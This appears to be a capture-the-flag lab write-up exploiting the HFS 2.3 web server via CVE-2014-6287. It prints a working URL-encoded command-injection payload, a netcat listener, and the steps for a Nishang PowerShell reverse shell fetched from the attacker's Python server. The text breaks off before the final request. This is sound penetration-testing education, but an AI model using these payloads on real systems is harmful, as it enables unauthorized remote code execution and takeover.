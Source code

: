 By the looks of our scan, seems that all we have open is port 80 hosting a HFS running version 2.3. Let's dive in.
### Enumeration
##### Port 80:

![Image](/assets/Screenshot 2024-09-07 at 9.36.17 AM.png)

The landing page for the website has a few interactive aspects, including a login portal. I'd tried a few default credentials, but no dice. I could try and brute force using hydra or burp, but I think we should table that vector until we've got nothing else.

A bit of digging brings us to CVE-2014-6287, which allows us to use nullbytes (`%00`) to define the end of a registered search query, but not the end of our `GET /` request. Theoretically, we should be able to append our RCE to the end of our request like so:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.3.}
```

Notice how it's URL encoded (`^U` and `SHIFT+^U` to toggle in Burp), and it also uses `/c` to specify `$PATH` for the command we give. If I TCP dump this (`tcpdump -i tun0`), notice we get our result:

![Image](/assets/Screenshot 2024-09-09 at 10.04.47 AM.png)
![Image](/assets/Screenshot 2024-09-09 at 10.04.17 AM.png)

To pop a shell, let's use the Nishang. It's a huge repository on github of scripts and payloads that enable PowerShell for our needs. Once we've downloaded and installed the tool, let's take a look at our options.

![Image](/assets/Screenshot 2024-09-09 at 10.09.32 AM.png)

Let's use the Invoke TCP OneLiner. We can use `cp` to copy its contents to a file called `revtcp.ps1`, and from there, we can `vim` into the file and uncomment the command, as well as change the IP/PORT `(10.10.14.3/4321)` to match our needs. 

![Image](/assets/Screenshot 2024-09-09 at 10.15.41 AM.png)

Once this is done, set up the listener by using the port specified, in my case, it was 4321. Don't forget the `rlwrap`!

`rlwrap nc -nlvp 4321`

Before we can throw the RCE into our header request with Burp, we need to serve this file with a SimpleHTTP server using Python. The server will host everything in the directory its spun in, so lets move our file to our `/home/` directory and spin our server there using `python -m SimpleHTTPServer 80`.

Now when we craft our request, architecture plays a very big role in completing our compromise of this system. Different paths work for different architectures, and the table below is an example. `c:\Windows\System32` and `c:\Windows\SysWow64` are both for 32-bit libraries. `c:\Windows\SysNative` is what we want here, as it's called for 64 bit libraries. I think (key word) that the session we launch is 32 bit, and in order to interact with the target machine in an efficient way, we need the 64 bit folder. SysNative meets both of those requirements.

